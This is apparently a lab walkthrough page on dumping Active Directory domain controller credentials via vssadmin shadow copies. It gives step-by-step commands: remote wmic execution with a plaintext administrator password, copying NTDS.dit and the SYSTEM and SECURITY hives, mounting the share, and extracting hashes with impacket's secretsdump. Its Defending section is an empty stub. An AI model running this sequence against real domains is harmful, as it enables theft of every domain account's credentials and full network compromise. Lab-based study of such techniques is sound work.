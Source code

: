 # Vssadmin Shadow Copy

## Configuring

No need to configure anything.

## Attacking

### How it works

With Domain Admin credentials it is possible to copy the NTDS.dit, SYSTEM and SECURITY hives remotely from the Domain Controller.

### Tools

* [Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

### Executing the attack

The attack requires Domain Admin credentials and is a post exploitation attack to extract credentials.

1. Login to `WS01` as a normal user. For example `Richard` and the password `Sample123`.
2. Open PowerShell and Execute the following command to create a shadowcopy of the C: disk with the vssadmin utility.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

![](<../../../.gitbook/assets/image (6).png>)

3\. Now we can copy the NTDS.dit, SYSTEM and SECURITY hives to the `C:\temp` directory.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

![](../../../.gitbook/assets/image.png)

{% hint style="info" %}
Make sure the C:\temp directory exists on the DC before executing this command!
{% endhint %}

4\. The next step is to mound the `C:\temp` directory and access the files:

```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\dc02\c$\temp -PSProvider FileSystem
cd \\dc02\c$\temp
```

![](<../../../.gitbook/assets/image (35).png>)

![](<../../../.gitbook/assets/image (5).png>)

5\. Copy the files to your Kali and execute the following command to extract the credentials.

```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

![](<../../../.gitbook/assets/image (1).png>)

![](<../../../.gitbook/assets/image (58).png>)



## Defending

### Recommendations

* a

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin" %}
